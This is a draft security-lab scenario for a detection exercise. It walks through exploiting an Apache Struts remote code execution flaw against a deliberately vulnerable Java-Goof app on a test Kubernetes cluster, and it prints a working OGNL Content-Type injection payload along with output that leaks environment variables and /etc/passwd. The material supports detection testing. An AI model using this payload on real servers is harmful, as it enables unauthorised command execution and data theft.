 # Scenario: Detect Apache Struts RCE Vulnerability Exploitation

***DRAFT***

## Prerequisites

- Playground One EKS Cluster
- Vision One Container Security
- Playground One Scenarios
  - Running app: Java-Goof running on vulnerable Tomcat
- Extracted contents of `exploit.zip`

Ensure to have an ECS Cluster up and running:

```sh
pgo --apply eks
pgo --apply scenarios
```

If you need to extract the exploits unzip with the password `virus`:

```sh
cd ${ONEPATH}
unzip exploits.zip
```

## Disclaimer

> ***Note:*** It is highly recommended to have the `awsone.access_ip` set to a single IP or at least a small CIDR before deploying the ECS cluster. This will prevent anonymous users playing with your environmnent. Remember: we're using vulnerable apps.

## Exploiting

First, retrieve the load balancer DNS name

```sh
pgo -o scenarios
```

Example output with ECS EC2:

```sh
loadbalancer_dns_health_check = "k8s-goat-healthch-e9104c52db-803985454.eu-central-1.elb.amazonaws.com"
loadbalancer_dns_hunger_check = "k8s-goat-hungerch-0816ee11b2-1006982801.eu-central-1.elb.amazonaws.com"
loadbalancer_dns_java_goof = "k8s-victims-javagoof-2c75b42412-356920097.eu-central-1.elb.amazonaws.com"
loadbalancer_dns_openssl3 = "k8s-victims-webappin-8cd6b2fc5e-1459691118.eu-central-1.elb.amazonaws.com"
loadbalancer_dns_system_monitor = "k8s-goat-systemmo-09a16052b6-565756108.eu-central-1.elb.amazonaws.com"
```

You want the variable `loadbalancer_dns_java_goof`.

### Exploit

Run:

```sh
cd ${ONEPATH}/exploits/struts/
./struts-exploit.sh k8s-victims-javagoof-2c75b42412-356920097.eu-central-1.elb.amazonaws.com
```

Expexted result:

```ascii
*   Trying 3.120.84.56:80...
* Connected to k8s-victims-javagoof-2c75b42412-356920097.eu-central-1.elb.amazonaws.com (3.120.84.56) port 80 (#0)
> GET /todolist/ HTTP/1.1
> Host: k8s-victims-javagoof-2c75b42412-356920097.eu-central-1.elb.amazonaws.com
> User-Agent: curl/7.81.0
> Accept: */*
> Content-type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='env').(#cmds={'/bin/bash','-c',#cmd}).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Mon, 11 Sep 2023 07:18:49 GMT
< Transfer-Encoding: chunked
< Connection: keep-alive
< Server: Apache-Coyote/1.1
< 
WEB_APP_SERVICE_SERVICE_PORT=80
KUBERNETES_SERVICE_PORT_HTTPS=443
TREND_AP_LOG_FILE=STDERR
JAVA_GOOF_SERVICE_SERVICE_PORT=8080
KUBERNETES_SERVICE_PORT=443
WEB_APP_SERVICE_PORT_80_TCP_ADDR=172.20.245.34
MAVEN_CONFIG=/root/.m2
MAVEN_PROJECTBASEDIR=/usr/src/goof
HOSTNAME=java-goof-6c95b8cd5f-qn49h
MAVEN_CMD_LINE_ARGS=/root/.m2 tomcat7:run
JAVA_GOOF_SERVICE_PORT_8080_TCP_PORT=8080
...
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Mon, 11 Sep 2023 07:18:49 GMT
< Transfer-Encoding: chunked
< Connection: keep-alive
< Server: Apache-Coyote/1.1
< 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
* Connection #0 to host k8s-victims-javagoof-2c75b42412-356920097.eu-central-1.elb.amazonaws.com left intact
```

Vision One Observed Attack Techniques:

![alt text](images/xdr_for_containers-eks-struts-01.png "Exploit")
